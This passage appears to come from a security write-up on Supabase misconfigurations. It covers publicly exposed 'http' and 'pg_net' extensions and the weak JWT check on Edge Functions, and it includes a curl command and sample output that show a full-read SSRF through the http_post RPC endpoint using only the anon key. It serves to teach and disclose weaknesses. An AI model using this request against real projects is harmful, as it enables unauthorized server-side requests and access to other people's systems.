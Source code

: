 ## Extensions
Extensions add extra functionality to Supabase, but they also expand the attack surface by introducing powerful built-in gadgets. By default, they reside in their own schema, `extensions`, but this schema can be exposed through the `public` schema or even made publicly accessible itself at `extensions`.

Extensions worth to check whether exposed:
- `http` *HTTP Client* (disabled by default)
- `pg_net` *Database Webhooks* (disabled by default)

If so, these RPC endpoints are accessible:
```
http
http_put
http_post
http_delete
http_header
http_head
http_get
http_patch
http_list_curlopt
http_set_curlopt
http_reset_curlopt
urlencode
text_to_bytea
bytea_to_text
```

Especially the `http*` endpoints are of interest to attackers. The following example demonstrates a full read *SSRF* via HTTP POST:
```bash
$ curl 'https://<id>.supabase.co/rest/v1/rpc/http_post?uri=https://<domain>&content=<body>&content_type=<content-type>' -H "apikey: <anon_key>"

{"status":200,"content_type":"text/html; charset=utf-8","headers":[{"field":"Access-Control-Allow-Credentials","value":"true"},{"field":"Access-Control-Allow-Headers","value":"Content-Type, Authorization"},{"field":"Access-Control-Allow-Origin","value":"*"},{"field":"Content-Type","value":"text/html; charset=utf-8"},{"field":"Server","value":"<domain>"},{"field":"Date","value":"Sat, 04 Oct 2025 10:17:47 GMT"},{"field":"Content-Length","value":"72"},{"field":"Connection","value":"close"}],"content":"<html><head></head><body></body></html>"}
```

## Edge Functions
*Edge Functions* are server-side TypeScript functions, distributed globally at the edge, thus close to the users. They can be used for listening to webhooks or integrating your Supabase project with third-parties like Stripe. One major configuration pitfall exist in the *Function Configuration* page:

*Verify JWT with legacy secret* ... and is enabled by default.

When this option is enabled, every function call must include a JWT signed with the project’s legacy secret. The problem? Both the anon key and the `service_role` key are JWTs signed with that exact same secret. In other words, this setting does not add any real layer of access control - an easily obtainable anon key is enough to call your *Edge Functions*. Here's how the setting is described in the settings:
